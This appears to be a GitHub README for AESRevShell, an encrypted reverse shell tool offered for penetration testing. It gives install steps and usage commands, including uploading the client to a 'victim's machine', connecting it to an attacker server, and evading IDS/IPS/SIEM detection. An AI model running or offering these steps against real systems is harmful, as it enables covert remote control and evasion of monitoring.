

# AESRevShell

## 🔐 Overview
AESRevShell is a **secure reverse shell tool** that utilizes:
- **AES-GCM** for authenticated encryption
- **ECDH** (Elliptic Curve Diffie-Hellman) for secure key exchange
- **HKDF** for key derivation

Ideal for **pentesting** and **security research** in monitored environments.

## ✨ Key Features
| Feature | Description |
|---------|-------------|
| **MITM Protection** | ECDH prevents interception |
| **Forward Secrecy** | Ephemeral session keys |
| **Command Execution** | Remote command execution with encrypted responses |
| **Encrypted Screenshots** | Captures and encrypts target screen |
| **Traffic Obfuscation** | Bypasses IDS/IPS/SIEM |
| **Cross-Platform** | Works on Linux/Windows/macOS |
| **No Key Sharing** | Automatic secure exchange |



## **Demos**


## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## 🖥️ **Usage**

- Upload the '**client.py**' into victim's machine

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p SERVER_PORT
```

### Special commands

- `screenshot` - Captures target screen
- `exit` - Terminates session
- `CTRL + L` - Clears console

## ⚠️ **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

## 🤝 **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

## **Author**
- [OusH4x](https://github.com/OusH4x)
